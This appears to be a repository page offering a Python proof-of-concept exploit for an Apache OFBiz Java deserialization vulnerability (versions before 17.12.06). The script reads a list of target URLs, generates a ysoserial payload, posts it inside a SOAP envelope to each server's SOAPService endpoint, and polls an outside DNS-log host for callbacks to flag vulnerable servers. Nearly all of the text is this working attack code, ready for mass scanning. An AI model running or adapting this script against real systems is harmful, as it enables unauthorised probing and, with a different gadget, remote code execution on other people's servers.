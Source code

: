 <languages />

Impacto de la vulnerabilidad
----------------------------

Apache OFBiz \< 17.12.06

POC
---

    #coding:utf-8
    import binascii
    import os
    import requests
    import urllib3
    import uuid
    urllib3.disable_warnings()
    def main():
        id = requests.get("https://dns.xn--9tr.com/new_gen").text.split(".")[0]
        if(not os.path.exists("target.txt")):
            exit("put url in target.txt! ")
        if(not os.path.exists("ysoserial.jar")):
            exit("where is ysoserial.jar?")
        with open("target.txt")as f:
            urls = f.readlines()
        for url in urls:
            url = url.strip()
            uid = uuid.uuid1().hex
            cmd = "java -jar .\ysoserial.jar URLDNS http://{0}.{1}.y.dns1.tk > tmp".format(uid,id)
            r = os.popen(cmd)
            r.close()
            with open("tmp",'rb') as f:
                payload = binascii.hexlify(f.read())
            data = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
                <soapenv:Header/>
                <soapenv:Body>
                <ser>
            <map-HashMap>
                <map-Entry>
                    <map-Key>
                        <cus-obj>{0}</cus-obj>
                    </map-Key>
                    <map-Value>
                        <std-String value="http://baidu.com"/>
                    </map-Value>
                </map-Entry>
            </map-HashMap>
                </ser>
                </soapenv:Body>
                </soapenv:Envelope>
                '''.format(payload.decode())
            headers = {
                "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"
            }
            url = url+"/webtools/control/SOAPService"
            try:
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
            except:
                pass
            dnslogresurl = "https://dns.xn--9tr.com/"+id
            if(uid in requests.get(dnslogresurl).text):
                print("[+] {0} 漏洞存在".format(url))
            else:
                print("[-] {0} 漏洞不存在".format(url))
        print("[+] 请到 {0} 查看结果".format(dnslogresurl))

    if __name__ == "__main__":
        main()